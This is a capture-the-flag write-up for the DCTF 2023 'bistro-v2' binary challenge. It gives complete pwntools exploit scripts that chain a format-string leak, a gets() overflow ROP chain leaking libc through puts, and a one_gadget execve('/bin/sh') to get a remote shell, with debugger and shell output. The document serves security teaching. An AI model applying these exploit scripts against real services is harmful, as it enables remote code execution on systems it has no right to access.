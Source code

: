 # 2023 DCTF - bistro-v2

We are given two files: restaurant-v2 binary and libc shared object:
```
$ file restaurant-v2 libc-2.27.so 
restaurant-v2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=cefe83d2f599154447cfd669b9f8205c67029f5a, with debug_info, not stripped
libc-2.27.so:  ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=71f0f3074a929e519e85f6a5c03a7d1fd976bfe4, for GNU/Linux 3.2.0, stripped
```

In disassembly we see that binary contains two stages. First stage is to provide a ticket to pass:
```
...
  fd = open("/dev/urandom",0);
  if (fd == -1) {
    puts("Open failed");
    iVar1 = -1;
  }
  else {
    sVar2 = read(fd,&flag,4);
    if (sVar2 == 4) {
      close(fd);
      puts("Wellcome to the restaurant V2!");
      fflush(stdout);
      fgets(buff,0x400,stdin);
      printf(buff);
      puts("Show me your ticket to pass: ");
      fflush(stdout);
      __isoc99_scanf(&DAT_00400ced,&not_flag);
      if (flag == not_flag) {
        restaurant();
      }
      else {
        puts("Permission denied!\n");
      }
      iVar1 = 0;
    }
...
```

This stage is vulnerable to string format due to `printf(buff)` where `buff` is the user's input:
```
$ ./restaurant-v2 
Wellcome to the restaurant V2!
%08x.%08x.%08x.%08x
9e265b03.fbad208b.006020c0.00000001
Show me your ticket to pass: 

```

In the debugger we can check the offset that prints out the random value expected to be "the ticket":
```
pwndbg> disass main
...
 0x0000000000400a6e <+216>:	call   0x4006c0 <puts@plt>
 0x0000000000400a73 <+221>:	mov    rax,QWORD PTR [rip+0x201606]        # 0x602080 <stdout@@GLIBC_2.2.5>
 0x0000000000400a7a <+228>:	mov    rdi,rax
 0x0000000000400a7d <+231>:	call   0x400730 <fflush@plt>
 0x0000000000400a82 <+236>:	lea    rax,[rbp-0xc]
 0x0000000000400a86 <+240>:	mov    rsi,rax
 0x0000000000400a89 <+243>:	lea    rdi,[rip+0x25d]        # 0x400ced
 0x0000000000400a90 <+250>:	mov    eax,0x0
 0x0000000000400a95 <+255>:	call   0x400750 <__isoc99_scanf@plt>
 0x0000000000400a9a <+260>:	mov    edx,DWORD PTR [rbp-0x8]
 0x0000000000400a9d <+263>:	mov    eax,DWORD PTR [rbp-0xc]
 0x0000000000400aa0 <+266>:	cmp    edx,eax
...
End of assembler dump.
pwndbg> b *0x0000000000400aa0
Breakpoint 1 at 0x400aa0: file restaurant-v2.c, line 88.
pwndbg> r
Starting program: /home/vm/Downloads/dctf/bistro-v2/restaurant-v2 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Wellcome to the restaurant V2!
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
f7fa2b03.fbad208b.006020c0.00000001.00000000.ffffe158.f7fe6d20.00000000.a329d9d4.00000001.f7df71ca.ffffe140
Show me your ticket to pass: 
123

Breakpoint 1, 0x0000000000400aa0 in main (argc=1, argv=0x7fffffffe158)
    at restaurant-v2.c:88
88	restaurant-v2.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────
*RAX  0x123
*RBX  0x7fffffffe158 —▸ 0x7fffffffe43f ◂— '/home/vm/Downloads/dctf/bistro-v2/restaurant-v2'
 RCX  0x0
*RDX  0xa329d9d4
*RDI  0x7fffffffdae0 ◂— 0x7fff00333231 /* '123' */
...
pwndbg> p/x $edx
$3 = 0xa329d9d4
```

As seen from the debugger output, the value expected is `a329d9d4` which is the 9th element in the format string output seen above.

We draft the first stage into a script:
```python
from pwn import *

LIBC_PATH = "./libc-2.27.so"
#LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"

r = remote('34.159.54.247', 30672)
#r = gdb.debug("./restaurant-v2", '''break custom
#''')
r.recvline()
r.sendline(b"%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x:%08x")
dump = r.readline()
ans = dump.split(b':')[-1]
r.sendline(ans)

print(r.recvuntil(b">> "))
r.interactive()
```

And it works:
```
$ python3 xpl.py 
[+] Starting local process '/usr/bin/gdbserver': pid 3298
[*] running in new terminal: ['/usr/bin/gdb', '-q', './restaurant-v2', '-x', '/tmp/pwnmfw_1pey.gdb']
b'Show me your ticket to pass: \n==============================\n\n              MENU             \n\n==============================\n\n1. Chessburger...............2$\n\n2. Hamburger.................3$\n\n3. Custom dinner............10$\n\n>> '
[*] Switching to interactive mode

$ 
```

Now comes the disassembly of the second stage which is basically the same as the initial version of the bistro challenge:
```
int custom(void)

{
  char buffer [100];
  
  printf("Choose what you want to eat:");
  gets(buffer);
  gets(buffer);
  return 0;
}
```

We utilize this buffer overflow to perform the following ROP chain:
- 0x400b33 which is `pop rdi ; ret`
- 0x602048 which is the address of the `gets@got.plt` popped into `rdi`
- 0x4006c0 which is the `puts` function

The first three gadgets in the chain are used to leak the gets@got.plt value, or shortly `puts(gets@got.plt)`.

This address leak is further used to calculate the libc base address by taking the offset to gets function inside libc and subtracting it with the leaked address printed by `puts`.

After calculating the libc base address we can just re-run the "Custom dinner" function at `0x40088a` to overflow once more and utilize a "one gadget" which is a call to `execve("/bin/sh", NULL, NULL)` performed inside libc where we jump and obtain a shell in a single gadget chain:
```
$ one_gadget libc-2.27.so 
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

There was no detailed analysis performed which gadget should be used. The offsets were simply tried out until a shell popped up.

This is the complete script that obtains the shell:

```python
from pwn import *

LIBC_PATH = "./libc-2.27.so"

r = remote("34.159.182.195", 32109)
#r = gdb.debug("./restaurant-v2", '''break custom
#''')
r.recvline()
r.sendline(b"%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x:%08x")
dump = r.readline()
ans = dump.split(b':')[-1]
r.sendline(ans)

r.recvuntil(b">> ")
r.sendline(b"3")
r.recvuntil(b"eat:")

payload  = b'A'*120
payload += p64(0x00400b33)        # pop rdi ; ret
payload += p64(0x00602048)        # plt
payload += p64(0x004006c0)        # puts
payload += p64(0x0040088a)        # back to roots

r.sendline(payload)
a = r.recvuntil(b"eat:")
g = a.split(b'\n')[0]
print(g)
gets_ptr = int.from_bytes(g, 'little')
print(gets_ptr)

l = ELF(LIBC_PATH)
l.address = gets_ptr - l.sym["gets"]

payload  = b'A'*120
payload += p64(l.address + 0x4f2a5)
r.sendline(payload)
r.interactive()
```

We execute and print the flag:
```
$ python3 xpl.py 
[+] Opening connection to 34.159.182.195 on port 32109: Done
b'`\xa0p\x97\x9a\x7f'
140301942431840
[*] '/home/vm/Downloads/dctf/bistro-v2/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
$ id
$ id
uid=1000(ctf) gid=3000 groups=3000,2000
$ ls 
flag.txt  restaurant  restaurant-v2  restaurant-v2.c
$ cat flag.txt
CTF{04134a331cd5bed41dc418c04854ac3fd7e03148f0e61d74d61508f19b7c5933}$ 
```
